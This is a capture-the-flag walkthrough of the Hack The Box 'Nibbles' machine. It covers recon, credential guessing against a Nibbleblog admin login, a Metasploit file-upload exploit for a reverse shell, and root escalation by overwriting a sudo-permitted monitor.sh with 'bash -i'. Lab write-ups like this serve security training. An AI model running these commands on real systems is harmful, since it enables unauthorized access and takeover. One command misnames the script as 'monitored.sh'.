 <b>

# Information Gathering
First i ping the target 4 times to ensure good connection:<br>
`ping -c 4 10.10.10.75`
```
PING 10.10.10.75 (10.10.10.75) 56(84) bytes of data.
64 bytes from 10.10.10.75: icmp_seq=1 ttl=63 time=109 ms
64 bytes from 10.10.10.75: icmp_seq=2 ttl=63 time=108 ms
64 bytes from 10.10.10.75: icmp_seq=3 ttl=63 time=108 ms
64 bytes from 10.10.10.75: icmp_seq=4 ttl=63 time=108 ms
```
After that i ran nmap with `-Pn` to not check if the host is alive and `-sVC` for version and script enumeration:<br>
`nmap -sVC -Pn 10.10.10.75`
```
Nmap scan report for 10.10.10.75
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Then i ran `whatweb` to gather additional information about the website:<br>
`whatweb -a 3 10.10.10.75`
```
http://10.10.10.75 [200 OK] Apache[2.4.18], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.18 (Ubuntu)], IP[10.10.10.75]
```
After checking the source code for the page i found this:<br>
![image](https://github.com/user-attachments/assets/cea217ff-0f73-4330-9765-f02383d391aa)

Browsing to the directory revealed blog page<br>
I ran feroxbuster which showed that the directories were readable:
![image](https://github.com/user-attachments/assets/b6297995-cf2b-42fd-96a0-f940124852d8)

The important one was this:<br>
`http://10.10.10.75/nibbleblog/content/private/`

Two of them revealed login information:
```
http://10.10.10.75/nibbleblog/content/private/users.xml
http://10.10.10.75/nibbleblog/content/private/config.xml
```
And one revealed the version of `Nibbleblog` was 4.0.3:<br>
`http://10.10.10.75/nibbleblog/README`
# Vulnerability Assessment
Looking up "`Nibbleblog 4.0.3 explot`" gave me this:<br>
https://www.exploit-db.com/exploits/38489

The exploit allows RCE due to upload vulnerability that allows to upload a reverse shell<br>
It is mentioned that there is `metasploit` module and for the exploit to work, we need to be authenticated<br>
Unfortunetly we only have username `admin`, after trying a couple common combinations:<br>
- `admin:admin`
- `admin:root`
- `admin:test`

I saw this in `http://10.10.10.75/nibbleblog/content/private/config.xml`:<br>
![image](https://github.com/user-attachments/assets/6257d40c-d085-4340-bf8d-e178299a1f8b)
And after trying `admin:nibbles` at the login form (`http://10.10.10.75/nibbleblog/admin.php`)<br>
We got redirected to the dashboard
# Exploitation
Now that we have the credentials, we can fire `msfconsole` and use the module to get a reverse shell:<br>
![image](https://github.com/user-attachments/assets/6c3f9f09-0807-4cd0-854f-fcc12197fa27)
<hr>

Select it:
![image](https://github.com/user-attachments/assets/4873443b-6381-47af-bf15-b14a9e9fd95e)
<hr>

And finally set the options & run it:<br>
![image](https://github.com/user-attachments/assets/33fb797a-cc19-4864-be9c-ca613cdd60d8)
<hr>

Once the terminal shows `meterpreter >` we can type `shell` to get a reverse shell<br>
# Post-Exploitation
After that we can run `python3 -c 'import pty; pty.spawn("/bin/sh")'` in order to get interactive shell
We run as the user "`nibbler`" and going to the `/home` directory and inside nibbler, we can get the `user.txt` flag
<hr>

After running `sudo -l` we get this output:
```
User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
```

There is also a zip file called `personal.zip`<br>
Running `unzip personal.zip` and then navigating through the directories, we find `monitor.sh`<br>
If we do `ls -la` we notice that we have the permission to not only read but also write<br>

In that case, we can just do:
- `rm monitor.sh`
And create new one with `bash -i` inside like so:
- `echo "bash -i" > monitor.sh`

Then by allowing execution and running it, we can become root:
- `chmod +x monitored.sh`
- `sudo ./monitor.sh`

The root flag is found at `/root/root.txt`
</b>
